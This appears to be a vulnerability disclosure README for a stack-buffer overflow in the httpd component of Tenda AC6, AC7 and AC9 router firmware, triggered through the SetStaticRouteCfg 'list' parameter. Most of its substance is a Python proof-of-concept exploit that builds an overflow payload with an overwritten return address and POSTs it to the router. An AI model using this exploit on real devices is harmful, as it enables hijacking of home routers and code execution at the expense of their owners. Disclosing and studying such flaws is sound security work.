




# static_router_stackoverflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 US_AC7V1.0RTL_V15.03.06.44_multi_TD01 && US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin
 
Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html && https://www.tenda.com.cn/download/detail-2776.html 

#### Describe

  In Tenda AC6 AC7, AC9,The httpd component does not limit the length of the post parameter when setting the static route in /goform/setstaticroutecfg, resulting in stack overflow covering the return address and code execution

#### Detail



follow up sub_77EC8





 	Therefore, a stack overflow vulnerability is generated, which can cover the return address 




POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetStaticRouteCfg"


payload = "a"*7+"f"*7+"c"+"b"*(0x30)+p32(0x000697D8)+"d"*0x80

f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"list":"192.168.33.0,255.255.255.0,192.168.33.1,WAN1"+payload
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/static_route.html?random=0.9469249426877971&",
	"Upgrade-Insecure-Requests":"1"
}

response = requests.request("POST", url, headers=headers, data=data)
```


